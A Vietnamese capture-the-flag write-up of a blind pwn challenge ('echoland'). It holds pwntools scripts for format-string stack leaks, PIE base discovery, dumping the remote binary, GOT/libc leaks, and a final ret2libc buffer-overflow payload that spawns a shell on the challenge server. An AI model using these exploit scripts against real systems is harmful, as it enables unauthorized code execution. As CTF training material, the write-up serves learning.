




## Introduction
Đây là một bài blind pwnable. Hiểu tương tự thì nó như các bài blackbox trong web. Thay vì được cung cấp source để phân tích, người chơi chỉ có thể tương tác với chương trình thông qua target của service. Từ đó suy luận về cách chương trình hoạt động cũng như tìm hướng khai thác.


Hiện nay các bài Blind Pwn đang ngày càng trở nên phổ biến trong cuộc thi CTF (bài đầu tiên mình gặp đó chính là cuộc thi CSCV 2026, tuy nhiên tác giả đã leak source @@). Một trong những lý do là sự phát triển mạnh mẽ của các mô hình AI. Đối với những bài có đầy đủ source code, AI có thể hỗ trợ rất hiệu quả trong việc phân tích, tìm kiếm lỗ hổng và đề xuất hướng khai thác. Tuy nhiên, với Blind pwn, lượng thông tin thu được rất hạn chế, buộc người chơi phải dựa vào tư duy suy luận.
## Enumeration
Kiểm tra target. Như dự đoán thì blindpwn đa số thì đều dính bug format string.
```
$ nc 154.57.164.76 31818

🦇 Inside the dark cave. 🦇
1. Scream.
2. Run outside.
> 1
>> a
Your friend did not recognize you and ran the other way!
$ nc 154.57.164.76 31818

🦇 Inside the dark cave. 🦇
1. Scream.
2. Run outside.
> 2
2

1. Scream.
2. Run outside.
> %p
0x6e

1. Scream.
2. Run outside.
> 1
>> %p
Your friend did not recognize you and ran the other way!
```
## Leaking stack frame
Xem stack frame thử coi có gì?
```python
from pwn import *

p = remote('154.57.164.76', 31818)

for k in range(20):
    p.sendlineafter(b'> ', f'%{k}$p'.encode())
    leak = p.recvline().decode().strip()
    print(f'{k}: {leak}')
```
Output:
```bash
$ python3 exploit.py
[+] Opening connection to 154.57.164.76 on port 31818: Done
0: %0$p
1: 0x6e
2: 0xfffffff4
3: 0x7f7ccfce8151
4: 0x1d
5: 0x7f7ccfd46a10
6: 0x7ffd1c4ff958
7: 0x100000000
8: 0xa70243825
9: (nil)
10: 0x7ffd00000000
11: 0x100000000
12: 0x55835f574400
13: 0x7f7ccfbf9bf7
14: 0x2000000000
15: 0x7ffd1c4ff958
16: 0x100000000
17: 0x55835f5742ef
18: (nil)
19: 0x2bfed27dd4fb2849
[*] Closed connection to 154.57.164.76 port 31818
$ python3 exploit.py
[+] Opening connection to 154.57.164.76 on port 31818: Done
0: %0$p
1: 0x6e
2: 0xfffffff4
3: 0x7f899ae8f151
4: 0x1d
5: 0x7f899aeeda10
6: 0x7ffcb57a40c8
7: 0x100000000
8: 0xa70243825
9: (nil)
10: 0x7ffc00000000
11: 0x100000000
12: 0x5611c591a400
13: 0x7f899ada0bf7
14: 0x2000000000
15: 0x7ffcb57a40c8
16: 0x100000000
17: 0x5611c591a2ef
18: (nil)
19: 0xea0557b61105ce59
[*] Closed connection to 154.57.164.76 port 31818
```
Dựa vào output thì mình biết được buffer đầu vào của nó nằm ở vị trí thứ 8 trong stack và file này PIE.
## Leaking exe base
Lấy giá trị base của exe bằng cách trừ offset cho đến khi nào mình đọc được giá trị magic byte của file ELF. 

```python
def leak_base_exe(exe_base):
    while True:
        info('Test exe base: ' + hex(exe_base))
        payload = b'%9$sAAAA' + p64(exe_base)
        p.sendlineafter(b'> ', payload)
        leak = p.recvline()
        print(leak)
        if b'\x7FELF' in leak:
            info('Exe base: ' + hex(exe_base))
            break
        exe_base -= 0x1000

leak_base_exe(exe_base)
```
Output:
```bash
$ python3 exploit.py
[+] Opening connection to 154.57.164.76 on port 31818: Done
[*] Leak exe: 0x55607a0da000
[*] Test exe base: 0x55607a0da000
b'\xf3\x0f\x1e\xfaH\x83\xec\x08H\x8b\x05\xd9/AAAA\n'
[*] Test exe base: 0x55607a0d9000
b'\x7fELF\x02\x01\x01AAAA\n'
[*] Exe base: 0x55607a0d9000
[*] Closed connection to 154.57.164.76 port 31818
```
## Dumping binary file
Mình dùng code của [blog](https://fdlucifer.github.io/2021/12/11/echoland/). Tuy nhiên, nó không chạy đúng với trường hợp ở bài này, nên mình có vibe coding lại. Quá trình leak file ELF hơi lâu vì dump nguyên source code để phân tích @@

```python
def dump_binary(exe_base):
    base = exe_base
    leak,leaked = bytearray(),bytearray()
    offset = len(leaked)
    while offset <= 0x5000:
        with open("echoland.bin", "ab") as l:
            addr = p64(base + len(leaked))
            leak_part = b"%9$sEOF\x00"
            p.sendlineafter(b'> ', leak_part + addr)
            resp = p.recvline()
            leak = resp.split(b"EOF")[0] + b"\x00"
            leaked.extend(leak)
            address_value = u64(addr.ljust(8, b"\x00"))
            print("Address: " + hex(address_value) + " - Offset: " + str(offset) + ":" + hex(offset)+ " - Leaked data: " + leak.decode("unicode_escape", errors="replace"))
            l.write(leak)
            l.flush()
            offset = len(leaked)
```
Output:
```bash
$ python3 exploit.py
[+] Opening connection to 154.57.164.76 on port 31818: Done
[*] Leak exe: 0x55eca85bb000
Address: 0x55eca85bb000 - Offset: 0:0x0 - Leaked data:
1. Scream.
2. Run outside.
> \x00
Address: 0x55eca85bb01f - Offset: 31:0x1f - Leaked data: \x7fELF\x02\x01\x01\x00
Address: 0x55eca85bb027 - Offset: 39:0x27 - Leaked data: \x00
Address: 0x55eca85bb028 - Offset: 40:0x28 - Leaked data: \x00
Address: 0x55eca85bb029 - Offset: 41:0x29 - Leaked data: ;\x00
Address: 0x55eca85bb02c - Offset: 44:0x2c - Leaked data: ;\x00
Address: 0x55eca85bb02e - Offset: 46:0x2e - Leaked data: \x00
Address: 0x55eca85bb02f - Offset: 47:0x2f - Leaked data: \x00
Address: 0x55eca85bb030 - Offset: 48:0x30 - Leaked data: \x00
Address: 0x55eca85bb031 - Offset: 49:0x31 - Leaked data: \x00
Address: 0x55eca85bb032 - Offset: 50:0x32 - Leaked data: \x00
...
Address: 0x55eca85bfffd - Offset: 20477:0x4ffd - Leaked data: \x00
Address: 0x55eca85bfffe - Offset: 20478:0x4ffe - Leaked data: \x00
Address: 0x55eca85bffff - Offset: 20479:0x4fff - Leaked data: \x00
Address: 0x55eca85c0000 - Offset: 20480:0x5000 - Leaked data: \x00
[*] Closed connection to 154.57.164.76 port 31818
```
## Reverse engineering
Sau khi dump xong, mình có file `echoland.bin` revese thì source nó hơi rối một xí :))
```
$ file echoland.bin
echoland.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, too large section header offset 2594073387297144832
```
Main function:
```c
__int64 __fastcall sub_12EF()
{
  _BYTE *v0; // rdi
  _BYTE v2[28]; // [rsp+10h] [rbp-20h] BYREF
  int v3; // [rsp+2Ch] [rbp-4h]

  sub_1260();
  v3 = 1;
  sub_1110(v2, 0, 20);
  sub_10E0("\n");
  while ( 1 )
  {
    sub_1100("1. Scream.\n");
    v2[sub_1120(0, v2, 19)] = 0;
    v0 = v2;
    if ( sub_10F0(v2, 110) )
    {
      sub_10E0("Run outside.\n");
      v0 = (_BYTE *)(&dword_0 + 1);
      sub_1150(1);
    }
    if ( v2[0] == 0x74 )
      break;
    sub_1100(v2);
    sub_10D0(10);
  }
  if ( v3 )
  {
    if ( (unsigned int)sub_12A7(v0) )
      sub_10E0(&unk_20C0);
    else
      sub_10E0("you fainted!");
  }
  return 0;
}
```
Vì code khá rối mắt, nên thử `xxd` để kiểm tra xem có gì thú vị trong mã hex thô của nó không?

Ta đoán được:

| Before   | After   | Offset |
| :------- | :------ | -----: |
| sub_1140 | setvbuf |  3FC8  |
| sub_1110 | memset  |  3FB0  |
| sub_1100 | printf  |  3FA8  |
| sub_1120 | read    |  3FB8  |
| sub_10E0 | puts    |  3F98  |
| sub_1150 | exit    |  3FD0  |

Bên cạnh đó, mình còn phát hiện được bug overflow.
```c
__int64 sub_12A7()
{
  _BYTE v1[64]; // [rsp+0h] [rbp-40h] BYREF

  printf(">> ");
  read(0, v1, 150);
  return sub_1130(v1, "n0ch4nch3t0gu3s$th1$");
}
```
Kiểm tra thử xem

## Finding the version of libc
Leaking...
```python3
def leak_got_address(name, offset):
    global exe_base
    # leak_exe_address()
    p.sendlineafter(b'> ', b'%9$sEOF\x00' + p64(exe_base + offset))
    a = p.recvline()
    libc = a.split(b"EOF")[0] + b"\x00"
    info(f'Leak {name} got: ' + hex(u64(libc.ljust(8, b"\x00"))))


leak_exe_address()
leak_got_address('setvbuf', 0x3FC8)
leak_got_address('memset', 0x3FB0)
leak_got_address('puts', 0x3F98)
leak_got_address('printf', 0x3FA8)
leak_got_address('read', 0x3Fb8)
leak_got_address('exit', 0x3Fd0)
```
Output:
```bash
$ python3 exploit.py
[+] Opening connection to 154.57.164.62 on port 32275: Done
[*] Leak exe: 0x556fea8be000
[*] Leak setvbuf got: 0x7fc47fa893d0
[*] Leak memset got: 0x7fc47fb96e90
[*] Leak puts got: 0x7fc47fa88aa0
[*] Leak printf got: 0x7fc47fa6cf70
[*] Leak read got: 0x7fc47fb18140
[*] Leak exit got: 0x7fc47fa4b240
[*] Closed connection to 154.57.164.62 port 32275
```
Tìm được 2 phiên bản libc, cả hai đều có chuỗi "/bin/sh" và "system" có offset như nhau nên chọn cái nào cũng được.

## RCE
```python
from pwn import *

p = remote('154.57.164.62', 32275)
libc = ELF('libc6_2.27-3ubuntu1.4_amd64.so', checksec=False)
exe_base = 0

p.sendlineafter(b'> ', b'%12$p')
exe_base = int(p.recvline()[:-1], 16) - 0x1400
p.sendlineafter(b'> ', b'%9$sEOF\x00' + p64(exe_base + 0x3FA8))
a = p.recvline()
a = a.split(b"EOF")[0] + b"\x00"
libc.address = u64(a.ljust(8, b"\x00")) - libc.sym.printf
info('Leak exe: ' + hex(exe_base))
info('Leak libc: ' + hex(libc.address))
p.sendlineafter(b'> ', b'1')

payload = b'A'*72 + p64(libc.address + 0x215bf) + p64(next(libc.search(b'/bin/sh\x00'))) + p64(libc.address + 0x215bf + 1) + p64(libc.sym.system)
p.sendlineafter(b'>> ', payload)
p.interactive()
```
Get shell!

